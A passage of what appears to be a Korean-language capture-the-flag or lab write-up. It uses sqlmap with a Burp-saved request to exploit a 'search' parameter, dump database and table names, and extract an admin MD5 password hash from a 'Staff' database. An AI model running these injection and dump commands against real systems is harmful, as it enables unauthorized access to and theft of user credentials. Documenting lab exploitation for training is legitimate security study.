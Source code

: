 ```

search=name
```
- burp를 통해 요청 전문을 복사해서 `req` 파일로 저장합니다.

command
``` shell
sqlmap -r req --dbs --dump --batch 
```
* 데이터베이스 목록, 안의 내용을 dump 떠서 보여주고, `batch`옵션을 통해 sqlmap 과정 중 선택사항을 자동화합니다

result
```
[19:12:18] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[19:12:18] [INFO] starting 6 processes 
[19:12:32] [WARNING] no clear password(s) found                                                        
Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
...
```
- admin의 password가 md5 hash값으로 찾아졌습니다.

command
``` shell
sqlmap -r req --tables
```

result
```
Database: Staff
[2 tables]
+---------------------------------------+
| StaffDetails                          |
| Users                                 |
+---------------------------------------+

Database: users
[1 table]
+---------------------------------------+
| UserDetails                           |
+---------------------------------------+
```

command
``` shell
sqlmap -r req --dump -D users -T UserDetails --batch
```
